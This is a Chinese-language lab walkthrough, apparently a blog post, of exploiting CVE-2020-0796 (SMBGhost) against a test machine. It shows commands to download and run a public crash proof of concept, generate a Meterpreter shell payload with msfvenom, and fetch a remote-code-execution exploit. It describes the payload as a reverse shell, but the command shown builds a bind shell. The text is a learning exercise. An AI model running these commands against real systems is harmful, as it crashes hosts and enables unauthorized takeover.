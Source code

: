 扫描，靶机存在可利用漏洞

![7](https://the0n3.top/medias/永恒之黑/7.png)

### 蓝屏攻击

下载蓝屏poc，安装环境

```bash
mkdir bluescreen
cd bluescreen
wget https://github.com/eerykitty/CVE-2020-0796-PoC/archive/refs/heads/master.zip
unzip master.zip
cd CVE-2020-0796-PoC-master
python3 setup.py install
```

准备好了，使用poc进行蓝屏攻击靶机

```bash
./CVE-2020-0796.py 192.168.237.136
```

蓝屏了，重启好像就没问题了？

![8](https://the0n3.top/medias/永恒之黑/8.png)


### 反弹shell获取最高权限

使用msf生成一个x64 windows反弹shell到本机4444端口的攻击exp

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f py -o evil.py
```

下载永恒之黑利用poc

::: tip
利用工具：https://github.com/chompie1337/SMBGhost_RCE_PoC
:::

```bash
mkdir CVE-2020-0796
cd CVE-2020-0796
wget https://github.com/chompie1337/SMBGhost_RCE_PoC/archive/refs/heads/master.zip
unzip master.zip
cd SMBGhost_RCE_PoC-master
```

把msf生成的反弹shell exp evil.py以及下载利用的poc的exploit.py复制出来，修改比较方便

![9](https://the0n3.top/medias/永恒之黑/9.png)

这里是evil.py里的内容

![10](https://the0n3.top/medias/永恒之黑/10.png)
